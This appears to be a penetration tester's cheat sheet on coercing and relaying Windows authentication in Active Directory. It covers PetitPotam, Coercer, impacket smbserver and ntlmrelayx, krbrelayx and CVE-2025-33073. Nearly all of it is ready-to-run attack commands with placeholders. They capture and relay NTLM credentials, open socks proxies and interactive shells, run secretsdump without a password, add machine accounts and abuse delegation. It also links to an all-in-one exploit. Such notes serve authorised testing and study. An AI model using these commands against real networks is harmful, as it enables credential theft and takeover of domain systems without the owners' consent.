 **Coercing**
- Can check for available coercion methods with `nxc smb {IP} -M coerce_plus -o LISTENER={kali_IP}`
  - This is better with credentials; can check for more methods (`-u {domain}\{user}` and `-p {password}`)
- Petitpotam
  - Uses `EfsRpcOpenFileRaw` to convince the DC to open a file at `\\attacker_share\share`, thus causing the DC to authenticate to us
  - We can capture the credential using impacket's `smbserver` to try and crack it, but this is pretty unlikely to work due to the randomized passwords
    - `smbserver.py loot $(pwd) -smb2support` will host a share on our IP called `loot`
    - Instead, we should relay it on with impacket's `ntlmrelayx` or `certipy`
  - Sometimes it won't work for unauthenticated users, thus `-u {user} -p {password} -d {domain}` can be used
- Coercer
  - [https://github.com/p0dalirius/Coercer](https://github.com/p0dalirius/Coercer)
    - `sudo apt install coercer`
  - A useful tool which convinces Windows servers to authenticate somewhere using 12 methods
    - Usage: `coercer coerce -u {domain_user} -p {password} -d {domain} -t {coercion_target_domain_IP} -l {listener_IP} --always-continue`
  - This can come in very handy when we've already rooted one server and want to pivot, as we can use something like Rubeus to extract tickets from memory
    - Thus, we'd specify `-l` as the server we own

**Relaying**
- If the credentials can't be cracked, pair responder up with `ntlmrelayx`
  - `ntlmrelayx.py -t {protocol_like_ldaps}://{target_ip} -socks`
    - `smb` can be used against servers that don't have signing:
      - `ntlmrelayx.py -tf {smb_no_signing_ips} -socks`
    - `-socks` will create a socks proxy to forward traffic along using the captured authentication
      - Thus, we add `socks4 127.0.0.1 1080` to `/etc/proxychains4.conf` and then can run commands as though we had a powershell session as the user
        - For example, we can run `secretsdump.py -no-pass` where normally a password would need to be specified
    - `-c "{command}"` will execute a command as the user, whereas `--interactive` can drop us into a shell on the respective protocol (SMB/LDAP/SQL)
      - After starting an interactive shell, it'll start up a service on localhost, which we can just `nc` to
    - Use `--remove-mic` with LDAP to downgrade NTLM's Message Integrity Check (aka to relay SMB info to an open LDAP port)
    - `-6` for listening for IPv6 with `mitm6`
    - `--keep-relaying` will continue to relay to all targets even if we've already tried one hash on them
      - This can come in very handy when there are multiple hashes found by responder (especially if one is much more rare)
    - `--add-computer {name} {password}` will attempt to add a new computer via SMB/LDAP
      `--delegate-access` will provide the target computer with delegation access to the the computer specified
- Kerberos relay with `krbrelayx.py`
  - [https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
  - Not like traditional relaying, since tickets and service keys are cryptographically bound together
  - If a user has `unconstrained delegation`, we can use this to pivot
    - A client authenticating to a service with unconstrained delegation allows forwarding of the full TGT, meaning we can impersonate the user to any other service
  - Abuse workflow (outlined [here](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/))
- Abuse machines solely with SMB signing disabled (or even with signing enabled!)
  - Recent CVE, CVE-2025-33073, with exploitation detailed in [this blog post](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
    - Easy all-in-one exploit exists [here](https://github.com/mverschu/CVE-2025-33073)
  - We can spoof as a certain type of DNS record, coerce the machine to authenticate to that DNS name, and then relay that authentication back to the original computer (which will actually accept it due to thinking the DNS record is itself, even though it's not where it resolves)